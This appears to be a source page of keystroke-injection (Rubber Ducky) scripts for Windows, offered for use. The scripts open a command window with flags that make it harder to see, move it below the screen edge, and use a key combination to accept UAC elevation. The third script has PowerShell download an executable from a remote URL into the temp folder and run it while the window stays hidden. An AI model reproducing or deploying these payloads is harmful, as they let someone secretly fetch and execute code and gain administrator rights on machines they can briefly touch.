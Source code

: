 The following is an example of how to hide the command window below the bottom of the screen while typing in commands. The window movement part of the script can also be used on any other window. CMD.exe is also run with some command line flags for changing the appearance of the window to make it harder to view, and also a flag that turns on delayed expansion in the command prompt which allows for variable names to be called more than once in a line with no adverse effects. Ex... SET Something = Something + Something_Else
```
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
The following is an attempt to create a hide CMD window script that uses a key combo to run as administrator when UAC is turned on. 
```
REM Target: WINDOWS VISTA
REM Encoder V2.4
REM Purpose: Hide cmd window script that uses a key combo to circumvent UAC limitations. 
DELAY 3000
CONTROL ESCAPE
DELAY 500
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
CTRL-SHIFT ENTER
DELAY 1000
ALT C
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
Other windows can be hidden also, as demonstrated in this powershell hide, get, and execute. 
```
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI R
DELAY 1000
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe'); Start-Process "%TEMP%\bob.exe"
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
Windows can also be hidden on other sides of the screen ex... replace DOWNARROW with RIGHTARROW, LEFTARROW, UPARROW.
